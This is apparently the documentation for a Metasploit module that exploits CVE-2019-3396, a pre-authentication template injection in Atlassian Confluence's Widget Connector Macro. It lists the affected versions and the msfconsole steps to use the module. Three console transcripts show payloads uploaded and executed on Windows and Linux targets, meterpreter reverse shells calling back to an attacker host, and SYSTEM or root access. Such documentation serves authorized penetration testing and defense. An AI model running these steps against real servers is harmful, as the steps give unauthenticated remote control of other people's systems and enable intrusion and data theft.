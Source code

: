 # Description

This module exploits a Velocity Template Injection in Atlassian Confluence Widget Connector Macro before 6.14.2 to execute arbitrary code (CVE-2019-3396). No authentication is required to exploit this vulnerability.

The vulnerability exists in the Widget Connector Macro which allow inject the "\_template" from the outside for some services, such as Youtube, Viddler, DailyMotion, etc.

The module has been tested with on Atlassian Confluence 6.6.12, 6.8.2, 6.12.0 and 6.13.0 using Java, Windows and Linux meterpreter payload.

References:
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-3396
https://confluence.atlassian.com/doc/confluence-security-advisory-2019-03-20-966660264.html

# Vulnerable Application
Affecting Atlassian Confluence before version 6.6.12, from version 6.7.0 before 6.12.3, from version 6.13.0 before 6.13.3 and from version 6.14.0 before 6.14.2.

# Verification Steps

List the steps needed to make sure this thing works

- [ ] Setting up a working installation of Atlassian Confluence before 6.6.13, 6.12.3, 6.12.3 or 6.14.2.
- [ ] Start `msfconsole`
- [ ] `use exploit/multi/http/confluence_widget_connector`
- [ ] `set RHOST <IP>`
- [ ] `set RPORT <PORT>`
- [ ] `set SRVHOST <HOST_IP>`
- [ ] `check`
- [ ] You should see `The target is vulnerable`
- [ ] `exploit`
- [ ] You should get a meterpreter session.

# Options
- **TARGETURI**: Path to Atlassian Confluence installation ("/" is the default)
- **ListenerTimeout**: Time that the Listener will wait for the payload request ("10" is the default)

# Scenario
## Tested on Confluence 6.8.2 with Windows target
```
msf5 > use exploit/multi/http/confluence_widget_connector
msf5 exploit(multi/http/confluence_widget_connector) > set RHOST target.com
RHOST => target.com
msf5 exploit(multi/http/confluence_widget_connector) > set RPORT 8090
RPORT => 8090
msf5 exploit(multi/http/confluence_widget_connector) > set SRVHOST 192.168.0.1
SRVHOST => 192.168.0.1
msf5 exploit(multi/http/confluence_widget_connector) > set TARGET Windows
TARGET => Windows
msf5 exploit(multi/http/confluence_widget_connector) > check
[*] target.com:8090 - Starting the FTP server.
[*] target.com:8090 - Started service listener on 192.168.0.1:8021
[+] target.com:8090 - The target is vulnerable.
[*] target.com:8090 - Server stopped.
msf5 exploit(multi/http/confluence_widget_connector) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 192.168.0.1:4444
[*] target.com:8090 - Starting the FTP server.
[*] target.com:8090 - Started service listener on 192.168.0.1:8021
msf5 exploit(multi/http/confluence_widget_connector) >
[*] target.com:8090 - Target being detected as: Windows 10
[*] target.com:8090 - Attempting to upload C:\PROGRA~1\Atlassian\Confluence\temp\gAdGh.exe
[*] target.com:8090 - Attempting to copy payload to C:\PROGRA~1\Atlassian\Confluence\temp\MRuDb.exe
[*] target.com:8090 - Attempting to execute C:\PROGRA~1\Atlassian\Confluence\temp\MRuDb.exe
[*] Sending stage (179779 bytes) to target.com
[*] Meterpreter session 1 opened (192.168.0.1:4444 -> target.com:62528) at 2019-04-11 03:13:37 +0000
[*] target.com:8090 - Waiting for exploit to complete...
[!] This exploit may require manual cleanup of 'C:\PROGRA~1\Atlassian\Confluence\temp\FFDBo.exe' on the target
[!] This exploit may require manual cleanup of 'C:\PROGRA~1\Atlassian\Confluence\temp\JLzIZ.exe' on the target
[*] target.com:8090 - Server stopped.
msf5 exploit(multi/http/confluence_widget_connector) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > quit
[*] Shutting down Meterpreter...

[*] target.com - Meterpreter session 1 closed.  Reason: User exit
msf5 exploit(multi/http/confluence_widget_connector) >
```

## Tested on Confluence 6.8.2 with Java target
```
msf5 > use exploit/multi/http/confluence_widget_connector
msf5 exploit(multi/http/confluence_widget_connector) > set RHOST target.com
RHOST => target.com
msf5 exploit(multi/http/confluence_widget_connector) > set RPORT 8090
RPORT => 8090
msf5 exploit(multi/http/confluence_widget_connector) > set SRVHOST 192.168.0.1
SRVHOST => 192.168.0.1
msf5 exploit(multi/http/confluence_widget_connector) > check
[*] target.com:8090 - Starting the FTP server.
[*] target.com:8090 - Started service listener on 192.168.0.1:8021
[+] target.com:8090 - The target is vulnerable.
[*] target.com:8090 - Server stopped.
msf5 exploit(multi/http/confluence_widget_connector) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 192.168.0.1:4444
[*] target.com:8090 - Starting the FTP server.
[*] target.com:8090 - Started service listener on 192.168.0.1:8021
msf5 exploit(multi/http/confluence_widget_connector) >
[*] target.com:8090 - Target being detected as: Linux
[*] target.com:8090 - Attempting to upload  /opt/atlassian/confluence/temp/EjpPf.jar
[*] target.com:8090 - Attempting to execute  /opt/atlassian/confluence/temp/EjpPf.jar
[*] Sending stage (53866 bytes) to target.com
[*] Meterpreter session 1 opened (192.168.0.1:4444 -> target.com:55690) at 2019-04-11 03:13:37 +0000
[+] target.com:8090 -Deleted /opt/atlassian/confluence/temp/EjpPf.jar
[*] target.com:8090 - Waiting for exploit to complete...
[*] target.com:8090 - Server stopped.
msf5 exploit(multi/http/confluence_widget_connector) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: root
meterpreter > quit
[*] Shutting down Meterpreter...

[*] target.com - Meterpreter session 1 closed.  Reason: User exit
msf5 exploit(multi/http/confluence_widget_connector) >
```

## Tested on Confluence 6.8.2 with Linux target
```
msf5 > use exploit/multi/http/confluence_widget_connector
msf5 exploit(multi/http/confluence_widget_connector) > set RHOST target.com
RHOST => target.com
msf5 exploit(multi/http/confluence_widget_connector) > set RPORT 8090
RPORT => 8090
msf5 exploit(multi/http/confluence_widget_connector) > set SRVHOST 192.168.0.1
SRVHOST => 192.168.0.1
msf5 exploit(multi/http/confluence_widget_connector) > check
[*] target.com:8090 - Starting the FTP server.
[*] target.com:8090 - Started service listener on 192.168.0.1:8021
[+] target.com:8090 - The target is vulnerable.
[*] target.com:8090 - Server stopped.
msf5 exploit(multi/http/confluence_widget_connector) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 192.168.0.1:4444
[*] target.com:8090 - Starting the FTP server.
[*] target.com:8090 - Started service listener on 192.168.0.1:8021
msf5 exploit(multi/http/confluence_widget_connector) >
[*] target.com:8090 - Target being detected as: Linux
[*] target.com:8090 - Attempting to upload /opt/atlassian/confluence/temp/BYHzD
[*] target.com:8090 - Attempting to copy payload to /opt/atlassian/confluence/temp/dESMnt
[*] target.com:8090 - Attempting to execute /opt/atlassian/confluence/temp/dESMnt
[*] Sending stage (985320 bytes) to target.com
[*] Meterpreter session 1 opened (192.168.0.1:4444 -> target.com:55690) at 2019-04-11 03:13:37 +0000
[+] target.com:8090 - Deleted /opt/atlassian/confluence/temp/BYHzD
[+] target.com:8090 - Deleted /opt/atlassian/confluence/temp/dESMnt
[*] target.com:8090 - Waiting for exploit to complete...
[*] target.com:8090 - Server stopped.
msf5 exploit(multi/http/confluence_widget_connector) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: root
meterpreter > quit
[*] Shutting down Meterpreter...

[*] target.com - Meterpreter session 1 closed.  Reason: User exit
msf5 exploit(multi/http/confluence_widget_connector) >
```